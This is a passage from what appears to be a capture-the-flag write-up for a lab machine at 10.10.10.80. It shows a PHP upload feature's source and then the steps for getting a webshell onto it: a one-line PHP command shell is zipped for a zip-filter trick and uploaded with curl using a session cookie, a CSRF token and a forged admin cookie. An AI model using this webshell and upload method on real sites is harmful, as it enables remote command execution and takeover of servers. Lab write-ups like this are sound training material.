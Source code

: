 ```
                print 'Hacker Detected.';
                print $token;
                die();
         }
        }

```

files are uploaded into `/uploads/[ip]/` using the random name algorithm.

The random file name is defined in `common.php`:

```

<?php
/* Stop hackers. */
if(!defined('FROM_INDEX')) die();

// If the hacker cannot control the filename, it's totally safe to let them write files... Or is it?
function genFilename() {
        return sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand());
}

?>

```

So we can upload arbitrary data into a file, but can’t control the name.

### Webshell

Since we can’t control the name of the file we upload, we can use a php zip filter to run a php shell.

First, create a zip with the payload:

```

root@kali# cat cmd.php
<?php echo system($_GET['cmd']); ?>
root@kali# zip shell.zip cmd.php
  adding: cmd.php (stored 0%)

```

Now, use curl to upload to the site. To do this, we’ll need the session cookie and the CSRF token, and then we’ll need to follow the location that comes back as a http 302:

```

root@kali# curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"'
Set-Cookie: PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54; path=/
        <input type="text" id="token" name="token" style="display: none" value="f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" style="width:355px;" />

root@kali# curl -X POST -sD - -F "tip=<shell.zip" -F "name=a" -F "token=f7ab6fe8906a56cc11bc34238be8d1f5efd324c2dceb7f216c512fdea8b17a5e" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80/?op=upload -H "Referer: http://10.10.10.80/?op=upload" -H "Cookie: admin=1; PHPSESSID=0v5980ekt4tqigv8e2dtlkvp54" | grep Location
Location: ?op=view&secretname=051f7db8f8de40c856efbed60179e6e1b0b528b1

```
